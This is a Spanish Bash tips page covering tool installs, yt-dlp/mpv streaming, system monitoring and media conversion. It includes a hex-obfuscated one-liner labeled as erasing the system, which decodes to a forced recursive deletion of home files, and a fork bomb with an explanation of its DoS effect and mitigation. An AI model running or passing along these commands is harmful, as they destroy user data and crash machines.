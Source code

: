 ```yaml
---
title: "Interesantes comandos de Bash"
date: 2022-11-19T01:54:18-03:00
---
```


Un chiste clásico: 
#### Instalar OhMyZsh 
```bash
sh -c "$(curl -fsSL https://raw.github.com/ohmyzsh/ohmyzsh/master/tools/install.sh)"
```
#### Instalar yt-dlp
yt-dlp es un fork mejorado de YouTube-dl

```bash
sudo curl -L https://github.com/yt-dlp/yt-dlp/releases/latest/download/yt-dlp -o /usr/local/bin/yt-dlp
sudo chmod a+rx /usr/local/bin/yt-dlp  # Hacerlo ejecutable
```

Mirar videos/streams de Twitch, YouTue, Vimeo, y un monton paginas mas con MPV usando yt-dlp: `yt-dlp -F url_del_directo_o_video_youtube` para ver los formatos disponibles.

Ver stream de Twitch a 360p
```bash
mpv  --ytdl-format=360p https://twitch.tv/nombre_del_canal
```

Ver video de YouTube a 480p
```bash
mpv  --ytdl-format=18 https://youtube.com/video_url
```

Para actualizarlo
```bash
sudo yt-dlp -U
```

#### Borrar todo tu sistema operativo
```bash
 xxd -p -r <<<726d202d7266207e2f2a
```

### Bash Fork bomb
```bash
:(){ :|:& };:
```
La bomba de bifurcación es una forma de ataque de denegación de servicio (DoS) contra un sistema basado en Linux o Unix. Hace uso de la operación de horquilla. El `:(){ :|:& };:` no es más que una función bash. Esta función se ejecuta recursivamente. A menudo, los administradores de sistemas lo utilizan para probar las limitaciones de los procesos de usuario en el servidor. Los límites del proceso de Linux se pueden configurar a través de `/etc/security/limits.conf` y PAM para evitar la bomba bash fork(). Una vez que se ha activado una bomba de horquilla con éxito en un sistema, es posible que no sea posible reanudar el funcionamiento normal sin reiniciar el sistema, ya que la única solución para una bomba de horquilla es destruir todas sus instancias.

```bash
type type
whereis whereis
whatis whatis
help help
whoami
```

### Levanta un servidor de http con Python 
```bash
python3 -m http.server
```

#### Obtener el clima en la consola.
```bash
curl wttr.in/:help

```

### Busar cheatseat de algun comando en especifico

```bash
curl cheat.sh/mpv
curl cheat.sh/feh
curl cheat.sh/ffmpeg
curl cheat.sh/tmux
curl cheat.sh/cualquier_nombre_de_otro_comando
```

### Hace un logo en ascii
```bash
sudo apt -y install figlet
figlet ascii
```

### 
```bash
man %command%
info %command%
%command% -h/--help/-?
help %builtin/keyword%
```
#### No sabes que estas buscando?
```bash
apropos %something%
```

### Observar memoria disponible/usada
```bash
watch free -h
```

```bash
free -h -s 5 -c 20
```
Solo para sistemas con systemd es equivalente al comando anterior
```bash
systemd-cgtop -m -d 5 -n 10
```

#### Swappinness
Swappiness es una propiedad del Núcleo Linux que permite ajustar el equilibrio entre el uso del Espacio de intercambio (swap en inglés, por eso el nombre de la propiedad) y la Memoria de acceso aleatorio (RAM). El swappiness puede tomar valores desde el 0 hasta el 100. Si se establece 0 el núcleo intentará no hacer intercambio, mientras que si se establece 100 el sistema intentará mantener la Memoria de acceso aleatorio lo más libre posible haciendo intercambio.


```bash
sudo sysctl vm.swappiness
```
#### Listar nombre y cantidad de ventanas abiertas
```bash
lsw
```

#### Utilidad para probar y configurar dispositivos de entrada Xorg.
```bash
xinput list
```
#### Listar todos los dispositivos PCI
```bash
lspci -k
```
```bash
ip addr
```


#### Convertir PNG a ICO
```bash
convert -resize x16 -gravity center -crop 16x16+0+0 input.png -flatten -colors 256 -background transparent output/favicon.ico
```

#### Cortar una parte de un video
```bash
ffmpeg -ss 00:00:30.0 -i input.wmv -c copy -t 00:00:10.0 output.wmv

```
